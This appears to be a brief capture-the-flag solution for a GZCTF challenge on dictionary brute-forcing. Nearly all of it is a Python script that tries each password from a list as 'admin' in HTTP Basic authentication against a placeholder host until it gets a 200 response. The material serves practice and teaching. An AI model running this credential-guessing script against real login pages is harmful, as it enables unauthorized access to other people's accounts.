


# simple_dict_brute-base64

原地址：[GZCTF-challenges/simple_dict_brute-base64](https://github.com/DeadlyUtopia/GZCTF-challenges/tree/main/simple_dict_brute-base64)



````python
import time
import requests
import base64

url = 'http://IP:PORT/'

password = []

with open("passwords.txt", "r") as f:  
        while True:
            data = f.readline() 
            if data:
                    password.append(data)
            else:
              break
            

for p in password:
        strs = 'admin:'+ p[:-1]
        header={
                'Authorization':'Basic {}'.format(base64.b64encode(strs.encode('utf-8')).decode('utf-8'))
        }
        rep =requests.get(url,headers=header)
        time.sleep(0.2)
        if rep.status_code ==200:
                print(rep.text)
                print(strs)
                break
````

